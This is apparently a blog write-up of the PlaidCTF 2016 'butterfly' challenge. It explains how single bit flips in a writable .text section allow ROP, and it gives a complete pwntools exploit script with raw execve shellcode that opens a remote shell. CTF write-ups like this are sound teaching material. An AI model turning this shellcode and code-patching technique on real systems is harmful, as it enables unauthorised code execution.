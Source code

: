 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/04/18/plaidctf-2016-butterfly/
date: 2016-04-18T06:00:01+09:00
tags: [ "ctf", "pwn", "writeup", "plaidctf", "mprotect" ]
---
```


# PlaidCTF 2016 butterfly

I like this problem, but this is a little easy.

## problem

``` sh
$ file butterfly
butterfly: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=daad8fa88bfeef757675864191b0b162f8977515, not stripped
```

``` sh
$ nc butterfly.pwning.xxx 9999
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
33554432
WAS IT WORTH IT???
```

The program `fgets` a integer $p$ using `strtol`, then flips the $(p \bmod 8)$-th bit of the address $\lfloor p / 8 \rfloor$.
The flipping is under `mprotect`, so you can flip even the `.text` section.

## solution

At first, we can flip arbitrary $1$-bit.
To enable to flip many bits, the first flipping is this:

``` asm
from:
  400860:	48 83 c4 48          	add    rsp,0x48
to:
  400860:	48 83 c4 08          	add    rsp,0x8
```

This is an instruction to return from the `main`, so this let us ROP, and now we can flip as many bits as we like.

Next, send a shellcode onto `.text` section, using flipping.
I wrote it here, and jump by making an error.

``` asm
  40086b:	bf 42 09 40 00       	mov    edi,0x400942 # "mprotect1"
  400870:	e8 fb fd ff ff       	call   400670 <perror@plt>
  ...
```

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host')
parser.add_argument('port', type=int)
args = parser.parse_args()
context.log_level = 'debug'

p = remote(args.host, args.port)

main = 0x400788
def thy_cosmic_ray(ptr):
    p.recvline()
    payload = ''
    payload += str(ptr)
    payload += ' ' * (8 - len(payload))
    payload += 'BBBBBBBB' # rbx
    payload += 'CCCCCCCC' # r14
    payload += 'DDDDDDDD' # r15
    payload += 'EEEEEEEE' # rbp
    payload += p64(main)
    payload += '\n'
    log.info(repr(payload))
    p.send(payload)
    p.recvline()

thy_cosmic_ray(0x400863 * 8 + 6) # make `add rsp, 0x48' to `add rsp, 0x8'

# http://shell-storm.org/shellcode/files/shellcode-806.php
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

addr = 0x40086b
text = "\xbf\x42\x09\x40\x00\xe8\xfb\xfd\xff\xff\xeb\xd6\xbf\x4c\x09\x40\x00\xe8\xef\xfd\xff\xff\xeb\xca\xe8\x88\xfd\xff\xff\x0f\x1f\x84\x00\x00\x00\x00\x00"

for (i, (frm, to)) in enumerate(zip(text, shellcode)):
    for j in range(8):
        if (ord(frm) ^ ord(to)) & (1 << j):
            thy_cosmic_ray((addr + i) * 8 + j)

p.recvline()
p.sendline('foo') # jump to perror

time.sleep(1)
p.sendline('id')
p.interactive()
```
